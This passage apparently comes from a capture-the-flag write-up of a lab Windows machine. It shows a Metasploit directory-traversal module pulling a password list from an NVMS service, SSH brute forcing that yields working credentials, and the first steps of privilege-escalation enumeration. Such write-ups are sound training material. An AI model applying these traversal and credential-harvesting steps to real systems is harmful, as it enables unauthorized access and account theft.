 And we try to run it : 

```console
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] 10.10.10.184:80 - Downloaded 156 bytes
[+] File saved in: /root/.msf4/loot/20200418090637_default_10.10.10.184_nvms.traversal_531779.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/tvt_nvms_traversal) >exit

root@kali:~# cat /root/.msf4/loot/20200418090637_default_10.10.10.184_nvms.traversal_531779.txt
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

The exploit was succesful and I was able to dump a collection of possible passwords I could use against SSH protocol with the usernames I have.

``nadine:L1k3B1gBut7s@W0rk`` were the valid creds from the bruteforcing and with that working up , I am able to grab the user flag and move on to root.

### ssh

```
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>type Desktop\user.txt
*redacted flag*
```

## Root Escalation

As usual I started taking a look on the softwares installed on the machine to see if I could make use of any.

```
nadine@SERVMON C:\>dir "Program Files"
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Program Files

08/04/2020  23:21    <DIR>          .
08/04/2020  23:21    <DIR>          ..
08/04/2020  23:21    <DIR>          Common Files
08/04/2020  23:18    <DIR>          Internet Explorer
19/03/2019  05:52    <DIR>          ModifiableWindowsApps
16/01/2020  19:11    <DIR>          NSClient++
08/04/2020  23:09    <DIR>          Reference Assemblies
08/04/2020  23:21    <DIR>          UNP
14/01/2020  09:14    <DIR>          VMware
08/04/2020  22:31    <DIR>          Windows Defender
08/04/2020  22:45    <DIR>          Windows Defender Advanced Threat Protection
19/03/2019  05:52    <DIR>          Windows Mail
19/03/2019  12:43    <DIR>          Windows Multimedia Platform
19/03/2019  06:02    <DIR>          Windows NT
19/03/2019  12:43    <DIR>          Windows Photo Viewer
19/03/2019  12:43    <DIR>          Windows Portable Devices
19/03/2019  05:52    <DIR>          Windows Security
```
